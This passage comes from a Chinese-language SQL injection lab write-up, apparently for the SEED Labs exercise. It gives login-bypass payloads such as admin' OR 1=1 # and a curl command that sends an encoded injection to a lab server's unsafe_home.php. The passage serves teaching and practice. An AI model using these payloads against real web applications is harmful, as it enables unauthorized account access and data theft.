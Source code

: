 ![2-2](../image/2-2.png)

除此之外，还有：

```sql
#布尔盲注入
#但只能显示第一条数据，可添加ORDER BY salary DESC; #显示所有数据
WHERE name= 'admin' OR 1=1 #' and Password='$hashed_pwd'    
#绕过条件注入
WHERE name= 'admin' OR '1'='1' and Password='$hashed_pwd'           
```

经过实验也都有效。

### Task 2.2: SQL Injection Attack from command line

任务要求是使用命令行进行注入攻击。

我们使用 curl 命令行发送 http 请求，同时对特殊字符进行简单编码即可：

```sql
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3b%23'
```

![2-3](../image/2-3.png)
